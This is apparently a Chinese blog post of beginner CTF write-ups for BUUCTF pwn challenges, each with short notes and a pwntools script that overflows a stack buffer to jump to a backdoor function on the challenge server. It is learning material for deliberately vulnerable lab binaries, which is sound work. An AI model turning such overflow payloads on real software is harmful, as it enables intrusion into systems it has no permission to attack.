




# 前言

开始刷一刷Buuctf的PWN题，一遍学一遍刷题了。

其实主要是堆学的顶不住了。。。一个下午才搞懂一个知识点，太tm的难了。

# test_your_nc

```python
from pwn import *
from LibcSearcher import *
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',27517)
p.interactive()

```

# rip

坑。。。。

一个gets的栈溢出，后门函数fun()在`0x401186`，本来直接编写EXP就能打，但是似乎64位的程序有堆栈平衡的问题，加一个ret指令来16字节对齐：



```python
from pwn import *
from LibcSearcher import *
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',25906)
payload = b'a'*23+p64(0x401016)+p64(0x401186)
p.sendline(payload)
p.interactive()
```


# warmup_csaw_2016

IDA反汇编：



sub_40060D是个后门函数，会把地址告诉我们。

然后就是栈溢出了，去算偏移然后构造payload就行：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',29643)
p.recvuntil('WOW:')
backdoor_addr = int(p.recvuntil('\n',drop=True),16)
payload = b'a'*0x48+p64(backdoor_addr)

p.sendline(payload)
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.interactive()

```

# ciscn_2019_n_1



v1存在栈溢出，且在v2上面，可以把v2给覆盖掉。

至于小数在内存中是怎么存储的，单精度是这样的：


直接网上在线工具转十六进制：



再算一下偏移后打过去即可：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',27574)
#p = process('./buu/warmup_csaw_2016')
#p = gdb.debug(["./buu/warmup_csaw_2016"],"break func")
payload = b'a'*0x2c+p64(0x41348000)
p.sendline(payload)
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.interactive()

```

# pwn1_sctf_2016

有个vuln函数和一个get_flag的后门函数。

vuln函数没看太懂。。。

```c++
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```

但是大致不细看测也能测出来是吧I替换成you，所以和ebp有0x3C的偏移，拿20个I来替换即可。

具体的逻辑明天在看了，今天看的有点累了：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',27331)
#p = process('./buu/warmup_csaw_2016')
#p = gdb.debug(["./buu/warmup_csaw_2016"],"break func")
payload = b'I'*20+b'a'*4+p64(0x8048F0D)
p.sendline(payload)
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.interactive()

```

